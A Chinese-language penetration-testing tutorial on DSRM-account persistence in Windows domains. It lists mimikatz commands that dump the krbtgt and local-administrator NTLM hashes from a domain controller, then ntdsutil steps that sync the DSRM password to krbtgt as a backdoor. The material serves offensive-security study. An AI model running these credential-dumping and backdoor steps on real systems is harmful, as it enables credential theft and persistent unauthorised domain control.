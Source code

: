 在渗透测试中，可以使用 DSRM 账号对域环境进行持久化操作。

* 如果域控制器的系统版本为 Windows Server 2008，则需要安装 KB96132 补丁才可以使用指定域账号的密码对 DSRM 的密码进行同步。
* 在 Windows Server 2008 以后版本的系统中不需要安装此补丁。
* 如果域控制器的系统版本为 Windows Server 2003，则不能使用该方法进行持久化操作。

每个 DC 都有本地管理员(administrator)账号和密码。DSRM 账号可以作为 DC 的本地管理员用户，通过网络连接 DC，进而控制 DC。

在 DC 上，DSRM 账号的表现形式是本地的 administrator 用户，也就是说本地 administrator 用户 = DSRM 账号

### 修改DSRM密码

参考链接：https://blog.csdn.net/weixin_36044132/article/details/119595410

微软官方给出的方法：

```powershell
NTDSUTIL #打开ntdsutil
set DSRM password # ：修改DSRM的密码
reset password on  server xxxx # 在当前域控制器上重置DSRM的密码
# 重复确定两次密码以后就可以了
# q(第1次)：退出DSRM密码设置模式
# q(第2次)：退出ntdsutil
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516142413.png)

### 设置 DSRM 后门

上传`mimikatz`，在`administrator`权限下执行命令

```powershell
privilege::debug
lsadump::lsa /patch /name:krbtgt
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516142802.png)

获取到了`krbtgt `**NTLM Hash**  和 SID

接下来查看并获取SAM文件中本地管理员的NTML也就是**DSRM的NTLM Hash值**

```powershell
token::elevate
lsadump::sam
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516142938.png)

将DSRM账号和krbtgt的NTML HASH同步

```powershell
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN account krbtgt
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516143329.png)
